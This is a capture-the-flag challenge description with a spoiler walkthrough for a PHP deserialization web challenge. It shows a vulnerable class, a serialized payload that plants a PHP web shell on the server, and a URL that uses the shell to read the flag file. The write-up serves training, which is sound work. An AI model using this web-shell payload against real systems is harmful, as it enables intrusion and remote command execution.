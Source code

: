 # Morty in the Clink

**Category**: web

**Author**: kotsios

## Description

If you want something with your heart, then the Univese will give it to you. In the meantime, can you help Morty to escape from the jail?

<details>
<summary>Reveal Spoiler</summary>
# PHP Deserialization

### Phase 1 - Find the Backup file and the "universe hint":
The student has to enumerate the application and find the "backup.php" file
The "backup.php" is the same application with another one link in the menu section - "s3r1al1z3.php"

**Hint 1: "s3r1al1z3.php" - It indicates the vulnerability is a php deserialization.**

**Hint 2: The content of the main site changed from:**
"The universe is basically an animal. It grazes on the ordinary. It creates infinite idiots just to eat them." - Rick 

To:
"The universe is basically a good hint. It leeds to escape. It creates files to idiot's servers just to hack them." - Rick
 
### Phase 2 - Find the "univese.txt" and the malicious parameter:
Content of the "univese.txt"
```php
<?php
class File
{
  public $filename = 'flag.txt';
  public $content = 'Try harder';
  public function __destruct()
  {
    file_put_contents($this->filename,$this->content);
  }
}
//$o = unserialize($_GET['uxxxxxxe']);
?>
```

From the last line of the script is the last hint.

**Hint 3: The GET parameter for the php deserialization is "universe"**

### Phase 3 - Exploitation
Using the "universe.txt" write a script that upload a malicious file.

I wrote the "deserialise.php" which serialize the malicous "simple_shell.php"

### Uploading the "simple_shell.php" in the webserver.
http://<url>/s3r1al1z3.php?universe=O:4:"File":2:{s:8:"filename";s:16:"simple_shell.php";s:7:"content";s:35:"<?php echo system($_GET['cmd']); ?>";}

### Retrieve the flag
http://<url>/simple_shell.php?cmd=cat /home/flag.txt


</details>
